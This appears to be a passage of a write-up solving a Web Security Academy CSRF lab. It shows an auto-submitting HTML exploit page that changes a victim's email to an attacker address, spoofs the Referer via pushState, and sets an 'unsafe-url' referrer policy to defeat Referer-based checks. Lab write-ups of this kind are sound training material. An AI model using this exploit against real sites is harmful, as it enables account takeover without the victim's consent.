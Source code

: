 ![image](https://github.com/user-attachments/assets/9f9581ca-9fde-4987-8adb-4d34c96e772c)


```html
<!DOCTYPE html>
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
    </form>

    <script>
      // Inject spoofed referer using pushState
      history.pushState({}, "", "/?https://YOUR-LAB-ID.web-security-academy.net");
      document.forms[0].submit();
    </script>
  </body>
</html>
````


---



By default, **most browsers strip the query string** from the Referer header for privacy/security reasons. To override this behavior and force the browser to send the full URL (with query string), I used:

```html
<meta name="referrer" content="unsafe-url">
```

Alternatively, you can use an HTTP header on the exploit server:

```
Referrer-Policy: unsafe-url
```

![image](https://github.com/user-attachments/assets/ce8c6f86-c43c-4f01-8a73-57887476d8be)


Deliver the exploit to victim to solve the lab.


![image](https://github.com/user-attachments/assets/892b679c-3f62-4a11-98cf-d7afdda062b6)




---
